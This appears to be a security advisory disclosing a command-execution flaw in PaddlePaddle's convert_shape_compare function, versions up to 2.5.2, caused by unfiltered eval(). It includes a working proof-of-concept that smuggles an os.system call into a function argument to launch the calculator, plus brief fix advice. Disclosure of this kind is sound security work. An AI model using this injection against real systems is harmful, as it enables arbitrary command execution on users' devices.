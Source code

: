 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability version: <= 2.5.2  
Vulnerability type: Command Execution  
Vulnerability vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause User's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run python and windows10

1、Download Paddle latest version(or <= v2.5.2)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

An unfiltered dangerous function (line 681) appeared in API function convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to carefully construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()
2、filter more

discovered by leeya_bug
